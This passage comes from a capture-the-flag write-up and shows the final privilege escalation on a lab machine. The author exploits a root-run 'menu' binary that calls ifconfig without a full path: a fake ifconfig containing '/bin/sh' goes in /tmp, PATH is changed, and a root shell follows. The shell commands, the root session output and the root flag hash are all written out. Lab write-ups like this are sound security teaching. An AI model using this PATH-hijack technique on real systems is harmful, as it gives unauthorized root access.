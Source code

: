 These interesting strings are present in the binary. We see that it is running ```curl```, ```uname``` and ```ifconfig``` without quoting the full file path (i.e. it is running ```uname -r```, not ```/usr/bin/uname -r```). This may seem like unnecessary nitpicking at the developer, but this is in fact a serious vulnerability.

We can create a new file called ```ifconfig``` in ```/tmp```, pop a shell into our new fake ```ifconfig``` file, and run the menu binary. Since menu is running these commands as root, and there is no full path for the binary to find the true ```ifconfig```, it will run our malicious version instead, giving us a root shell.

##### Commands:
>cd /tmp
<br>touch ifconfig
<br>echo “/bin/sh” > ifconfig
<br>chmod +x ifconfig
<br>/usr/bin/menu

This did not work at first, I was getting the same ```ifconfig``` output as before. This is because menu was still running the original ```ifconfig``` file. We forgot a crucial step - changing the path variable. ```/tmp``` was added to the front of ```PATH```, so that ```menu``` executes ```ifconfig``` from ```/tmp```.

##### Command:
>export PATH=/tmp:$PATH

Now when ```menu``` was run, we got a root shell!

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
# whoami
root
```

After exploring around a bit, we find the final flag in the ```root.txt``` file.

```
# pwd
/tmp
# cd ../root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
#
```

### Tools Used

* Nmap
* Samba shares
* smbclient
* ProFTPD
* Netcat
